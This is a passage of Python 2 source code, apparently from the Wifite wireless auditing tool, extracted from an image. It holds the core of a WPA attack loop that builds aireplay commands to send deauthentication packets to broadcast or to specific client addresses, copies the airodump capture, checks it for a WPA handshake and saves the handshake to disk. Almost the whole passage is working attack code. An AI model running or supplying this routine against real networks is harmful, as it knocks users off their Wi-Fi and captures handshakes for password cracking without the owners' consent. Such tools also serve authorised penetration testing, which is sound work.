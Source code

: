                     client_index += 1

                    if client_index == -1 or len(target_clients) == 0 or client_index >= len(target_clients):
                        print " %s sending %s deauth to %s*broadcast*%s..." % \
                              (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W,
                               G + str(self.RUN_CONFIG.WPA_DEAUTH_COUNT) + W, G, W),
                        client_index = -1
                    else:
                        print " %s sending %s deauth to %s... " % \
                              (GR + sec_to_hms(self.RUN_CONFIG.WPA_ATTACK_TIMEOUT - seconds_running) + W, \
                               G + str(self.RUN_CONFIG.WPA_DEAUTH_COUNT) + W, \
                               G + target_clients[client_index].bssid + W),
                        cmd.append('-h')
                        cmd.append(target_clients[client_index].bssid)
                    cmd.append(self.iface)
                    stdout.flush()

                    # Send deauth packets via aireplay, wait for them to complete.
                    proc_deauth = Popen(cmd, stdout=DN, stderr=DN)
                    proc_deauth.wait()
                    print "sent\r",
                    stdout.flush()

                # Copy current dump file for consistency
                if not os.path.exists(self.RUN_CONFIG.temp + 'wpa-01.cap'): continue
                copy(self.RUN_CONFIG.temp + 'wpa-01.cap', self.RUN_CONFIG.temp + 'wpa-01.cap.temp')

                # Save copy of cap file (for debugging)
                #remove_file('/root/new/wpa-01.cap')
                #copy(temp + 'wpa-01.cap', '/root/new/wpa-01.cap')

                # Check for handshake
                if self.has_handshake(self.target, self.RUN_CONFIG.temp + 'wpa-01.cap.temp'):
                    got_handshake = True

                    try:
                        os.mkdir(self.RUN_CONFIG.WPA_HANDSHAKE_DIR + os.sep)
                    except OSError:
                        pass

                    # Kill the airodump and aireplay processes
                    send_interrupt(proc_read)
                    send_interrupt(proc_deauth)

                    # Save a copy of the handshake
                    rename(self.RUN_CONFIG.temp + 'wpa-01.cap.temp', save_as)

